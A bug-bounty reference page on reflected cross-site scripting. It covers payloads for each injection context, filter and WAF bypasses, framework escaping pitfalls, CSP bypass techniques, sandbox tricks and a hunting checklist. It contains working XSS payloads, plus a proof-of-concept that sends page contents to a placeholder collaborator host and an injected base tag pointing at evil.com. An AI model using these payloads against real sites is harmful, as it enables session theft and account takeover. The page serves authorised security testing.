

> Source: https://bugbounty.info/Attack-Surface/Web/Injection/XSS/Reflected-XSS

# Reflected XSS

The classic. Input comes in, gets sanitized (or not), and reflects back in the response. Context is everything  -  I've bypassed "sanitized" output a dozen times just by reading where the input actually lands.

## Context Matrix



### HTML Body Context

Input lands directly in markup. Simplest case.

```html
<!-- Reflection: <div>SEARCH_TERM</div> -->
<script>alert(1)</script>

<svg onload=alert(1)>
<body onload=alert(1)>
<details open ontoggle=alert(1)>
```

### Attribute Context  -  Unquoted

```html
<!-- Reflection: <input value=TERM> -->
TERM onmouseover=alert(1)
TERM autofocus onfocus=alert(1)
```

### Attribute Context  -  Double-Quoted

```html
<!-- Reflection: <input value="TERM"> -->
" onmouseover="alert(1)
" autofocus onfocus="alert(1)
">
```

### Attribute Context  -  Single-Quoted

```html
<!-- Reflection: <input value='TERM'> -->
' onmouseover='alert(1)
'><svg onload='alert(1)'>
```

### JavaScript String Context

```javascript
// Reflection: var name = 'TERM';
'-alert(1)-'
\';alert(1)//
</script><script>alert(1)</script>
```

### JavaScript Block Context (unquoted value)

```javascript
// Reflection: var id = TERM;
alert(1)
1;alert(1)
```

### URL / href Context

```html
<!-- Reflection: <a href="TERM"> -->
javascript:alert(1)
data:text/html,<script>alert(1)</script>
```

## Filter Bypass Techniques

### Tag/Event Obfuscation

```html
<!-- Case variation -->
<ScRiPt>alert(1)</ScRiPt>

 
<!-- Null bytes / extra chars (old filters) -->
<scr\x00ipt>alert(1)</scr\x00ipt>
 
<!-- Unusual tags that fire events -->
<marquee onstart=alert(1)>
<video><source onerror=alert(1)>
<input autofocus onfocus=alert(1)>
<select autofocus onfocus=alert(1)>
<textarea autofocus onfocus=alert(1)>
```

### Encoding Tricks

```html
<!-- HTML entities inside event handlers -->

 
<!-- URL encoding in href -->
<a href="javascript:%61%6c%65%72%74%28%31%29">click</a>
 
<!-- Double encoding -->
<a href="javascript:%2561%256c%2565%2572%2574(1)">click</a>
```

### Breaking Out of Context

```html
<!-- Escape JS string, inject new block -->
</script><script>alert(1)</script>
 
<!-- Comment injection to bypass partial filters -->
<!--<script>-->alert(1)<!--</script>-->
```

## WAF Evasion  -  Quick Reference

See [WAF Bypass](../../../../Attack-Surface/Web/Injection/XSS/WAF-Bypass) for deep coverage. Key quick wins:

```html
<!-- Space alternatives -->

<svg	onload=alert(1)>   <!-- tab instead of space -->
 
<!-- Bracket alternatives -->


```

## Hunting Workflow

1. Inject a unique string (e.g., `xsstest1234`)  -  no special chars  -  confirm reflection and context.
2. Build the minimal breaking payload for that context.
3. If blocked, try encoding, case variation, alternate tags/events.
4. Use Burp's Intruder with `fuzz-xss.txt` from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) when going broad.

## PoC Upgrade  -  From alert(1) to Impact

```javascript
// Exfil cookies

 
// Exfil localStorage

 
// Full page screenshot via html2canvas (stored XSS)
<script src=https://html2canvas.hertzen.com/dist/html2canvas.min.js></script>
<script>html2canvas(document.body).then(c=>fetch('https://COLLAB/?i='+c.toDataURL()))</script>
```

## Framework-Specific Escaping

Modern frameworks escape output by default, but each one has opt-out mechanisms that end up in production code.

### React

React escapes JSX by default. The dangerous paths:

```jsx
// dangerouslySetInnerHTML  -  the name is a warning
<div dangerouslySetInnerHTML={{ __html: userBio }} />
 
// Unsafe URL schemes in href/src  -  React doesn't block javascript: in all versions
<a href={userSuppliedUrl}>click</a>  // test with javascript:alert(1)
 
// Server-side rendering with raw injection
res.send(`<div id="state">${JSON.stringify(data)}</div>`)
// If data contains </div><script>... the HTML parser breaks out
```

When you spot `dangerouslySetInnerHTML` in source, that's your target. Probe the backing API endpoint for the field that populates it  -  the escaping happens client-side only if the dev was lazy.

### Vue

`v-html` is the Vue equivalent:

```html
<!-- Vulnerable -->
<div v-html="userContent"></div>
 
<!-- v-bind on src/href with user input -->
<a :href="userUrl">click</a>
```

Vue's template compiler escapes `{{ interpolation }}` but `v-html` renders raw. Search for `v-html` in bundled JS and trace back to the data source.

### Svelte

Svelte's `{@html ...}` directive opts out of escaping:

```svelte
<!-- Vulnerable -->
{@html userComment}
```

As with React and Vue, the default interpolation `{variable}` is safe; `{@html}` is the escape hatch to find.

### Angular

Angular's `DomSanitizer.bypassSecurityTrust*` methods suppress sanitisation:

```typescript
// Any of these in the codebase deserves investigation
this.sanitizer.bypassSecurityTrustHtml(userInput)
this.sanitizer.bypassSecurityTrustUrl(userInput)
this.sanitizer.bypassSecurityTrustResourceUrl(userInput)
this.sanitizer.bypassSecurityTrustScript(userInput)
```

Angular also has `[innerHTML]` binding  -  when it receives a `SafeHtml`-typed value that was produced by `bypassSecurityTrustHtml`, arbitrary HTML renders. Grep the source bundle for `bypassSecurityTrust` and trace the input.

---

## Modern CSP Bypass

A CSP is only as strong as its weakest allowlisted source.

### Nonce Reuse

If the nonce in `script-src 'nonce-XYZ'` is static (same value on every page load), it's useless  -  you can just use it:

```html
<script nonce="XYZ">alert(1)</script>
```

Check by loading the same page twice and comparing the `Content-Security-Policy` header. The nonce must differ.

### Missing `base-uri`

Without `base-uri 'self'`, an injected `<base href="https://evil.com">` redirects all relative script `src` values:

```html
<!-- Injected into HEAD -->
<base href="https://evil.com/">
<!-- Now <script src="/app.js"> loads https://evil.com/app.js -->
```

### `script-src 'self'` with JSONP Endpoints

If the policy allows `script-src 'self'` and the target has a JSONP endpoint that reflects a callback name:

```text
https://target.com/api/user?callback=alert(1)//
# Response: alert(1)//({"user":"...})
```

Then a script tag pointing at that endpoint executes under `'self'`:

```html
<script src="https://target.com/api/user?callback=alert(1)//"></script>
```

### CDN Allowlist Abuse

`script-src https://cdn.jsdelivr.net` sounds safe, but jsDelivr serves arbitrary npm packages, including packages you control:

1. Publish a package to npm with your payload in the main JS file
2. Reference it via jsDelivr: `https://cdn.jsdelivr.net/npm/your-package@1.0.0/index.js`
3. Inject `<script src="https://cdn.jsdelivr.net/npm/your-package@1.0.0/index.js">`

Same logic applies to `unpkg.com`, `cdnjs.cloudflare.com` (if you can find a vulnerable package version), and any other CDN serving untrusted user content under a single domain.

### Trusted Types Bypass via Reflection

If the app enforces Trusted Types (`require-trusted-types-for 'script'`) but the TrustedTypePolicy processes reflected input without sanitising:

```javascript
// Vulnerable policy
const policy = trustedTypes.createPolicy('default', {
    createHTML: input => input  // passthrough - no sanitisation
});
```

The CSP is implemented but the policy itself is the sink.

---

## Sandbox-Domain Tricks

Some programs have hardened their main domain but left sandbox domains open.

**iframe srcdoc**  -  when you can inject an `<iframe>` with a `srcdoc` attribute, you get a fresh execution context:

```html
<iframe srcdoc="<script>alert(parent.document.domain)</script>"></iframe>
```

**data: URIs**  -  blocked by most modern CSPs but worth testing on older apps or internal tools:

```html
<iframe src="data:text/html,<script>alert(1)</script>"></iframe>
```

**blob: URIs**  -  if you can control code that calls `URL.createObjectURL(new Blob([payload], {type:'text/html'}))` and open the result:

```javascript
// From an injection point that reaches JS execution
let b = new Blob(['<script>alert(document.domain)</script>'], {type:'text/html'});
window.open(URL.createObjectURL(b));
```

**Sandboxed iframes that allow scripts**  -  `<iframe sandbox="allow-scripts allow-same-origin">` is worse than no sandbox because scripts run but with relaxed restrictions. Look for these in SPA containers.

---

## Checklist

- Inject a unique alphanumeric string first, find every place it reflects in the response
- For each reflection: open DevTools and locate the exact DOM context (body, attribute, JS string, JS block)
- Build the minimal breaking payload for that context before reaching for a list
- Test all form fields, URL parameters, headers, and path segments for reflection
- Check 404 pages and error responses  -  they often reflect the URL path
- For filter bypass: try case variation, encoding (single, double, URL), alternate event handlers, and unusual tags
- Check the CSP header before bothering with payload delivery  -  understand what it allows
- If CSP is present: check for nonce reuse, missing base-uri, self-hosted JSONP, and CDN allowlist abuse
- Search JS bundles for `dangerouslySetInnerHTML`, `v-html`, `{@html`, `bypassSecurityTrust`
- Escalate PoC beyond `alert(1)`: cookie exfil, localStorage exfil, or full ATO chain
- Test sandbox domains, preview environments, and staging hosts  -  they often lack the same CSP
- For every reflected XSS: assess CSRF bypass potential (same-origin requests)

## Public Reports

Real reflected XSS findings across bug bounty programmes:

- Reflected XSS on Yahoo login via malformed OAuth state parameter - [HackerOne #192816](https://hackerone.com/reports/192816)
- Reflected XSS in Shopify admin panel via return URL parameter - [HackerOne #146670](https://hackerone.com/reports/146670)
- Reflected XSS on HackerOne via markdown preview endpoint - [HackerOne #409944](https://hackerone.com/reports/409944)
- Reflected XSS on Twitter via the `redirect_after_login` parameter - [HackerOne #210213](https://hackerone.com/reports/210213)
- Reflected XSS on Uber via an unencoded redirect parameter in the auth flow - [HackerOne #105991](https://hackerone.com/reports/105991)

## See Also

- [DOM XSS](../../../../Attack-Surface/Web/Injection/XSS/DOM-XSS)
- [Stored XSS](../../../../Attack-Surface/Web/Injection/XSS/Stored-XSS)
- [Framework XSS](../../../../Attack-Surface/Web/Injection/XSS/Framework-XSS)
- [WAF Bypass](../../../../Attack-Surface/Web/Injection/XSS/WAF-Bypass)
- [CSRF](../../../../Attack-Surface/Web/Client-Side/CSRF)
- [XSS Overview](../../../../XSS/)
